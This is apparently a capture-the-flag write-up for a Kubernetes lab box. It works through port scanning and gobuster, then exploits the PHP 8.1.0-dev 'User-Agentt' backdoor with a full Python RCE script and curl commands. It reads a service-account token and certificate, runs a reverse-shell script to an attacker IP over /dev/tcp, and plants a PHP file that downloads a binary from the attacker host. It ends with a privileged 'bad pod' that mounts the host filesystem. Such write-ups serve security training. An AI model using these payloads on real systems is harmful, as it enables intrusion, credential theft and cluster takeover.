<div align="center">


# Frank and Herby try again...

**Difficulty:** Medium  
**Category:** Kubernetes / Cloud

</div>

---
## Ports
* 22

* 10250
* 10255
* 10257
* 10259
* 16443
All Golang net / http server
* Working together?
* All but `10255` give "Client sent an HTTP request to an HTTPS server"
* https:// 10257 & 10259 gives this:



* https:// 16443



Gobuster?

I got the error: 
```bash
the server returns a status code that matches the provided options for non existing urls. https://10.82.180.147:16443/c32507ab-e8c7-4c6b-91c6-4566fcac7162 => 401 (Length: 129). Please exclude the response length or the status code or set the wildcard option.. To continue please exclude the status code or the length
```
Which means that even for directories that do not exists, we will get a response code 401 "Unauthorized". Because of this I have to exclude 401 as a "valid finding":
```bash
gobuster dir -u <host> -w <wordlist> -s "200,204,301,302,307,403" 
```
`-s` or `--statuscodes` are the codes that are considered "positive", the ones I am looking for

Now I got the error:post 
```bash
status-codes ("200,204,301,302,307,403") and status-codes-blacklist ("404") are both set - please set only one. status-codes-blacklist is set by default so you might want to disable it by supplying an empty string
```

Which states that I can only set one of the two "`--statuscodes` and `--statuscodesblacklist` which is `-b`"
```bash
gobuster dir -u <host> -w <wordlist> -s "200,204,301,302,307,403" -b ""
```
Which makes the blacklist empty.

I also had to supply the flag `--no-tls-validation` since it is a HTTPS website. This works because the website does not require tls validation, seen by the first page (something like this):

#AfterReview
**NOTE! this should be changed to:**
* **The server uses HTTPS with a certificate that my machine does not trust, so Gobuster refuses the connection unless I disable certificate verification with `--no-tls-validation`**



Final gobuster command:
```bash
gobuster dir -u https://10.82.180.147:16443 -w /usr/share/wordlist/dirbuster/something_medium --no-tls-validation -s "200,204,301,302,307,403" -b ""
```
* No findings with gobuster on port `16443`.

For port 30679:

Error
```bash
the server returns a status code that matches the provided options for non existing urls. http://10.82.180.147:30679/83d20257-0ab3-4f7d-969a-06111ed04ce3 => 200 (Length: 640). Please exclude the response length or the status code or set the wildcard option.. To continue please exclude the status code or the length
```
All directories get a 200 response?



Yup.
PHP 8.1.0-dev

```bash
gobuster dir -u http://10.82.180.147:30679 -w /usr/share/wordlists/dirbuster/something_lowercase_medium -s "204,301,302,307,403" -b ""
```
This is weird tho, I will not see the actual valid 200 responses.

 By looking at the PHP version I found an exploit:

"PHP 8.1.0-dev - 'User-Agentt" Remote Code Execition
```python
mport os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit
else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```
Basically, the dev version of PHP 8.1.0 (PHP 8.1.0-dev) was made with a backdoor that allowed RCE through the `User-Agent` header!

Can also be done with curl:
```bash
curl http://10.82.180.147:30679 -H "User-Agentt: zerodiumsystem('cat /etc/passwd');"
```



root access?

```bash
cat /etc/passwd
```


No other users.


```bash
ls -la /var/run/secrets/kubernetes.io/serviceaccount
```



#AfterReview  
**Theses are automatically mounted into Kubernetes pods.**

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
> -----BEGIN CERTIFICATE-----
MIIDDzCCAfegAwIBAgIUSyIc0S1Mg3lPqiK4keqNfebw/3gwDQYJKoZIhvcNAQEL
BQAwFzEVMBMGA1UEAwwMMTAuMTUyLjE4My4xMB4XDTIyMDMyMDE3MzgxMloXDTMy
MDMxNzE3MzgxMlowFzEVMBMGA1UEAwwMMTAuMTUyLjE4My4xMIIBIjANBgkqhkiG
9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsaCxq3hAEhWKTIX1tA4Zve/DBlcSHaUsIT9C
Xk2usH4CRbYstI1u8+cf48ANvcrvmSfx8aU++C7zyt30TUqpG0VTGGjlirQjuHTC
sPGDvN4X8zVHz9yz0ESYvtCSZ1vD8YYK76SLAKBsnwCMXJ6t2mckf9KrHJOEc2n7
jinM7kXZ8CY5jugrGhjQEoaytoL/yx30+2Pj77PIC4wrxe4yepJn7xApLIRrnCRv
9dmOBYruw0s8dtuLCghd8q3JAVXNEAUQzwXDvhZ1QrgICRs+kTYW17uRFc41G/Tt
21IhX6uV+50PUjW1wCO/gwaIF1dcIhLlFTAMqaTo77TAzWBuOwIDAQABo1MwUTAd
BgNVHQ4EFgQUW9bvPh199LmBXIPFZtfFcp8pmskwHwYDVR0jBBgwFoAUW9bvPh19
9LmBXIPFZtfFcp8pmskwDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsFAAOC
AQEAUe1UPx4SYwbQFkOYnaPd76U6uuCUwOogqv8RqywXgqr4Tj9r/QZcOTSafPk1
VdDgaxAQcj4kv3Am/j/4HTajHO+tv6he63SfVkCB7txXx88LRqazlkHzPOZsFXKY
kkQDWcFNy9jvzmAUpK2k+/VHzsCc6nBfNmxjIqW5FEQRAPsBHJN6jXtfSPYKVeA2
+Jj6yWpgz4Vr1VqMTCxlT4FCT6+3zfPUgCKUdqB2qBzH4Z7oNlczJR13jLa3qd7F
VQvJBsQMENSivG2/9sXsMK35O6ARZ4U0fgH+LJttXG9mMN+DLK7+Pna0mfNjlrc1
v+ystMEnq13M7jr7YTOfR1lFvg==
-----END CERTIFICATE-----
```

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
```



Namespace is `frankland`


```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
> eyJhbGciOiJSUzI1NiIsImtpZCI6Img4TVpFMFp0RTlrc3NCdlpyT25fcEVZVzYyWm1CVWtlZTY2dC1OUjJhcmMifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjIl0sImV4cCI6MTgxNDU5OTI0NywiaWF0IjoxNzgzMDYzMjQ3LCJpc3MiOiJodHRwczovL2t1YmVybmV0ZXMuZGVmYXVsdC5zdmMiLCJrdWJlcm5ldGVzLmlvIjp7Im5hbWVzcGFjZSI6ImZyYW5rbGFuZCIsInBvZCI6eyJuYW1lIjoicGhwLWRlcGxveS02ZDk5OGY2OGI5LXN4bDY2IiwidWlkIjoiMzY5MDQxMWQtY2Y5ZS00ZjBlLTliZjAtYjU5MzBkNjUyZTIxIn0sInNlcnZpY2VhY2NvdW50Ijp7Im5hbWUiOiJkZWZhdWx0IiwidWlkIjoiNmZhYmRmYzUtYzIwYS00ZDc1LWI2ZWItZTY4NTZlMDhhOTE3In0sIndhcm5hZnRlciI6MTc4MzA2Njg1NH0sIm5iZiI6MTc4MzA2MzI0Nywic3ViIjoic3lzdGVtOnNlcnZpY2VhY2NvdW50OmZyYW5rbGFuZDpkZWZhdWx0In0.45HICezmMmg059IX-RlT2TxJgeN4V2Hh9ExCMKjmjRW9Knfke4eMZ_TE0dmvVUzpB32TzBlWYSdvpM7VOKYBfKBhBABSgs8CcFhTISTS3YjjQmpKNe1svhj2NvkhpA7u3xp6ne_3sBx-il9xup7AeZ2DCKjdl87xTNoXbu22e0XbQxeH4ybjNmCdh4mzpaPVMZ9-VaCRW11jEJI5UbcmIp1UkTqVmbw4pqUhCOODPk9TXEp-3loJemxpN-F3p3XK-_EgELIu0PzdfQoLW2AUsZIeTSd2YR8mkyPQZQ33YZWb7KhlARPM5ZA-wk6vZtMKr1eLKQK5xkwucxu7y1beMA

```

This command checks if the `token` and `ca.crt` is valid
```bash
curl --cacert ca.crt -H "Authorization: Bearer $(cat token)" https://10.82.180.147:16443/version
```




#AfterReview 
**This is apparently the "standard way" of verifying the credentials, we need the token to check the Kubernetes version.**


I did this on the other ports and got these responses:
* 10250



* 10255


* 10257



* 16443

 

Using kubernetes `1.23.17`

```bash
curl --cacert ca.crt  -H "Authorization: Bearer $(cat token)" https://10.82.180.147:16443/api/v1/namespaces | grep "namespaces/"
```
Shows me all the namespaces!



We got
* kube-system
* kube-public
* kube-node-lease
* default
* frankland

**NOTE! This is done from my own machine, with the ca.crt and token copied over**
⚙️
```bash
curl --cacert ca.crt  -H "Authorization: Bearer $(cat token)" https://10.82.180.147:16443/api/v1/namespaces/kube-system/secrets | grep '"name":'
```



These are all the secrets!

I want to run kubectl in order to use exec on the kube-system pods.

I dont know why this works when the other shells from revshells.com did not work.
```python
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell():
    payload = 'bash -c \"bash -i >& /dev/tcp/' + "192.168.135.169" + '/' + "1234"  + ' 0>&1\"'
    injection = request.get("http://10.82.180.147:30679", headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    reverse_shell()
    
if __name__ == "__main__":
    main()
```
The difference is this payload is surrounded by both ' and ", also `allow_redirects=False`

I dont know man!



We got a  shell now anyways.


I build a php file byte by byte
```bash
echo "<?php" > foo.php
echo "   file_put_contents('kubectl', file_get_contents('http://192.168.135.169:1337/kubectl))" > foo.php
echo "?>" > foo.php
```

Now when I access this site it is going to download kubectl from my attacker machine and place it in kubectl on the target machine.

From my attacker machine:
```bash
curl http://10.82.180.147:30679/foo.php
```


NOTE: I had to stop the reverse shell session since it is taking up the traffic between the server and my machine.






Now kubectl is there

```bash
chmod +x kubectl 
```

# OKAY
So I dont need to have kubectl on the target machine, I can use it from my own machine by specifying the server with `--server`

#AfterReview 
**Once I have the ca.crt and token this is a much much better approach**


```bash
kubectl --server https://10.82.180.147:16443 --certificate-authority=ca.crt --token=$(cat token) auth can-i --list
```



I can do anything I want!!!

```bash
kubectl --server https://10.82.180.147:16443 --certificate-authority=ca.crt --token=$(cat token) get namespaces
```



The same as before, kube-system is the interesting one.

```bash
kubectl --server https://10.82.180.147:16443 --certificate-authority=ca.crt --token=$(cat token) auth can-i --lisst -n kube-system
```



I can do anything I want on `kube-system` as well.

I remember the `bad pods` from a youtube video. 
```bash
wget  https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml    
```
This downloads a yaml file that can deploy a new pod. This pod lets me do everyting on it, hence "everything-allowed-exec-pod". I dont know if this is needed since I already have all permissions, but now I get a shell on it?

```bash
kubectl --server https://10.82.180.147:16443 --certificate-authority=ca.crt --token=$(cat token) apply -f everything-allowed-exec-pod.yaml 
```
Apply the `bad pod` on the server


```bash
kubectl --server https://10.82.180.147:16443 --certificate-authority=ca.crt --token=$(cat token) get pods
```



We can see that the pod is starting up.

Oh yeeaaah, I forgot:



Since image is set to `ubuntu` in the yaml file:



The pod will try to fetch the image from the internet, but it does not have internet access. So it will fail...

This is the yaml file:




```bash
kubectl --server https://10.82.180.147:16443 --certificate-authority=ca.crt --token=$(cat token) exec -it -n kube-system calico-kube-controllers-664fd6f4fb-j4kh4 -- /bin/bash
```



I found that pod on `get pods -A` but im guessing it is not "entirely" set up?
* It fails with /bin/sh aswell. Why does it not have those binaries?

```bash
kubectl --server https://10.82.180.147:16443 --certificate-authority=ca.crt --token=$(cat token) exec -it -n kube-system calico-node-m75xn -- /bin/bash
```
This works!



Do I have to create my own evil pod in order to access the control plane? Since I already have all the access?

```bash
kubectl --server https://10.82.173.5:16443 --certificate-authority=ca.crt --token=$(cat token) get pods -A -o jsonpath="{..image}" | tr ' ' '\n'
```
* Get the image path for each pod, where the image is!
* `tr` removes all spaces and replaces them with linebreaks.



Nice difference.
* At first I thought it was `truncate,` but no. Its `translate!`

Take the image for `vulhub/php:8.1-backdoor` and replace `ubuntu` in the yaml file with it.
* With just `ubuntu` the image will be pulled from the internet by default. Since the box does not have internet access I got something like "ErrImagePull" when looking at the pods.
* #AfterReview **Kubernetes tries to pull "docker.io/library/ubuntu"**
* **I can also supply the line `imagePullPolicy: IfNotPresent` which means that the image will only be pulled from the internet if it is not already present on that node.**

The `everything.yaml` bad pod is now:



Since that image already is on the (**NODE**) machine it will succeed.



Running!

```bash
kubectl --server https://10.82.173.5:16443 --certificate-authority=ca.crt --token=$(cat token) exec -it -n kube-system everything -- /bin/bash
```
Execute a `interactive` (-i) and `tty` (-t) command on the pod `everything` in the namespace `kube-system.` The command being `/bin/bash.`



Since the `mountPath:` in the yaml file is set to `/host`



The host's file system will be in /host/...

So the flags are
```bash
cat /host/root/root.txt
> THM{<REDACTED>}
cat /host/home/herby/user.txt
> THM{<REDACTED>}
```
